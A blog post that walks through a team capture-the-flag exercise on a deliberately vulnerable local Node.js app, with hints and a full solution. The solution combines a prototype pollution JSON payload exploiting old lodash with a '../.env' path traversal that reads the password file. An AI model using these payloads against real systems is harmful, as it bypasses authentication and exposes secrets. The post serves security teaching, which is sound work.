


Last time our team had a small JavaScript workshop together (Check this article here: [8 Javascript quiz that may confuse you](/posts/8-javascript-quiz-that-may-confuse-you)). 
And we’ve done it quite well. Everyone enjoyed solving those small problems.

Well, this time, my teammate has brought us a practice of finding the Node.js web application vulnerabilities.

It’s not a hard one. There’re **2** vulnerabilities in the web app. The way to “capture the flag” is to succeed in login. If you made it, text of `flag`  will be displayed in the page.




## Get Started

Follow the instructions and make sure that you’ve already got everything on track. Now, you’re only allowed to look at the repository files of

- README.md
- vuln1/index.js
- uploads/*
- package*.json

Remember not to cheat before you complete the quiz (The God is watching you). Here are some notices before starting it.

1. **Please don’t open `.env` file.**
2. **Please complete the quiz without changing the source code (However, debugging is allowed).**
3. **Please follow the above advices**

### 0. Prerequisites

Make sure that you have Node 16+ install on your system (NPM v8 is required). A recommended way to install Node.js via [nvm](https://github.com/nvm-sh/nvm)

```sh
$ nvm install 16
...
$ nvm use 16
```

### 1. Clone the repo

Here is the repository link: https://github.com/daiyanze/vulnerability-code-challenge

```sh
$ git clone git@github.com:daiyanze/vulnerability-code-challenge.git
$ cd crack-the-code-challenge & npm i
```

### 2. Start the server

```sh
$ npm -w challenges/vuln1 run start

> vuln1@1.0.0 start
> node index.js

Started on http://localhost:81
```

### 3. Open http://localhost:81

Then the following screen will pop out. 



This admin page does 4 things:

1. Modify the JSON file's name & content
2. Upload your JSON file
3. Print out the JSON file content
4. Login

Your mission now is to pass the login step, and let the page display `flag` text.

## Hints

If you are still not sure how to do it, pry out the hints below 1 by 1.
But please do remember to read the code in `index.js` file first. 
You'll find many useful clues in it.

<p>
<details>
  <summary>Hint 1</summary>

>What about browsing other files on the server?

</details>
</p>

<p>
<details>
  <summary>Hint 2</summary>

>Take a good look at the messages from your terminal.

</details>
</p>

<p>
<details>
  <summary>Hint 3</summary>

>How about changing the content of the `parsed.json` file?

</details>
</p>

<p>
<details>
  <summary>Hint 4</summary>

>You know you could mutate `prototypes` and `__proto__`, don't you?

</details>
</p>

<p>
<details>
  <summary>Hint 5</summary>

>Just go to answer section. It’ll tell you how.

</details>
</p>


## When flag is captured

Don't read this section if you haven't captured the flag. But I really hope you've already made it.
Otherwise the following will just lead you to a detailed explanation before you could actually resolve the mystery by yourself.

### Explanation

In the first few paragraphs of this article, it's mentioning that we have 2 vulnerabilities. And they are both threatening the login step.

The key points are

>Where do we get the password?
>
>How do we cheat the authentication?

Once we have a clue of how to handle these things above, then the answer would be right above the surface.

It's not very hard to associate the password with the mysterious `.env` file right? 
Since you've been told not to look at it, then curiosity may have driven you toward the "method" of opening that file as what's written in the "Hint 1".

So if you try to open the content of `.env` file via "Read uploaded JSON", the password will appear. 
Oh, we got a password now. Then that should work? Certainly nope. It's just a start.

Remember what's written in the source code about authentication?

```js
const user = {
  // just pretend this comes from a db
  password: "$2a$12$3cSdZFdEIG9FizllB9.5E.M8DTQQ185zyITtBTBz7Lz3Va8s0xjSy",
};

switch (user.auth_method ?? "bcrypt") {
  case "bcrypt":
    passed = bcrypt.compareSync(req.body.password, user.password);
    break;
  case "superadmin":
    passed = req.body.password === process.env.SUPER_ADMIN_PASS;
    break;
  default:
    throw new Error("invaid auth method");
}
```

The encrypted `password` is already there but you can't decrypt it easily. So the breakthrough point is `ts•user.auth_method`.
You need to find a way to turn `ts•user.auth_method` value into `"superadmin"`. But how?

Well, here's one useful information from the terminal when you install the package. There's one critical severity vulnerability in your package.

```sh
added 110 packages, and audited 111 packages in 8s

5 packages are looking for funding
  run `npm fund` for details

1 critical severity vulnerability

To address all issues, run:
  npm audit fix

Run `npm audit` for details.
```

When you tried to `sh•npm audit fix`, the solution would come to your mind easily if you had experience with "prototype pollution".

```sh
added 1 package, removed 1 package, and audited 120 packages in 2s

10 packages are looking for funding
  run `npm fund` for details

# npm audit report

lodash  <=4.17.20
Severity: critical
Prototype Pollution in lodash - https://github.com/advisories/GHSA-jf85-cpcp-j695
Prototype Pollution in lodash - https://github.com/advisories/GHSA-fvqr-27wr-82fm
Command Injection in lodash - https://github.com/advisories/GHSA-35jh-r3h4-6jhm
Regular Expression Denial of Service (ReDoS) in lodash - https://github.com/advisories/GHSA-x5rq-j2xg-h7qm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-p6mc-m468-83gw
fix available via `npm audit fix --force`
Will install lodash@4.17.21, which is outside the stated dependency range
node_modules/lodash

1 critical severity vulnerability

To address all issues, run:
  npm audit fix --force
```

Here is a very good article about "prototype pollution".

https://brightsec.com/blog/prototype-pollution/

In a simple word, "Prototype pollution" is "to extend / modify the global objects". 

```js
Object.__proto__.auth_method = "superadmin"
Object.constructor.prototype.auth_method = "superadmin"
```

With the above trick, you could just add some extra seasonings to that JSON content. Now you are good to capture the flag.

```json
{"__proto__":{"auth_method":"superadmin"}}
```

The vulnerability that helps you "overcome" the password authentication comes from `lodash <= 4.17.20`. Refer to this [page](https://github.com/advisories/GHSA-jf85-cpcp-j695) to get more details.


### Answer

The solution takes only 3 steps.

1. Input the following to "Secure JSON formatter" `html•<textarea>` and click "Format & Upload" button.

```json
{"__proto__":{"auth_method":"superadmin"}}
```

2. Input `../.env` to "Read uploaded JSON" and click "Read" button

3. Input what you get from step 2 to "Login" password

Then you'll get a `flag` text in the page.


## Summary

This practice itself isn't a very hard one. But at least I think gave us some good warnings of taking care of our project's securities.

The first important thing in making secure applications is to carry out "user-input validation & sanitization" all the time and never use those inputs directly.

>When shall we trust the end users? When there's no input at all.

The second important thing is from our projects. Some of the developers don't usually pay attention to the information from the `npm audit`.
There're so many reasons of "we don't have to" (you know why :p).
But when it comes to some security concerns, `npm audit` has already given us enough clues to follow up with. 
Thus, constantly check and update our dependencies will probably do us a favor in building a rather secured application.

